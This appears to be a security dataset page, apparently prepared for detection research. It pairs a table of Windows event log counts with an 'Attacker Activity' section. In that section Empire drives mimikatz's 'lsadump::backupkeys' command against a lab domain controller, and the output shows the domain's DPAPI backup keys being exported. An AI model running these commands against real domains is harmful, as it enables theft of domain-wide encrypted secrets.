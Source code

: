 | Security                                   | Microsoft-Windows-Security-Auditing | File Share                                             |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Plug and Play Events                                   |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | SAM                                                    |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | DPAPI Activity                                         |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | Security Group Management                              |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             405 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             258 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             254 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             211 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |              87 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              77 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              39 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               9 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            1995 |

## Attacker Activity

```
(Empire: powershell/credentials/mimikatz/command) > set Command lsadump::backupkeys /system:HFDC01.shire.com /export
(Empire: powershell/credentials/mimikatz/command) > execute
[*] Tasked 13GK9C5T to run TASK_CMD_JOB
[*] Agent 13GK9C5T tasked with task ID 1
[*] Tasked agent 13GK9C5T to run module powershell/credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > Job started: DPB5F4
Hostname: HR001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::backupkeys /system:HFDC01.shire.com /export

Current prefered key:       {a1b58ded-16ec-4822-ab1c-3a4cfb9c268a}
  * RSA key
	Exportable key : YES
	Key size       : 2048
	Private export : OK - 'ntds_capi_0_a1b58ded-16ec-4822-ab1c-3a4cfb9c268a.pvk'
	PFX container  : OK - 'ntds_capi_0_a1b58ded-16ec-4822-ab1c-3a4cfb9c268a.pfx'
	Export         : OK - 'ntds_capi_0_a1b58ded-16ec-4822-ab1c-3a4cfb9c268a.der'

Compatibility prefered key: {116228fd-901d-4386-853a-9611c3c93e28}
  * Legacy key
aff6c7adc1e0ddc685fae1fd657a1f6756df313f9b149f4af78949700de1022f
```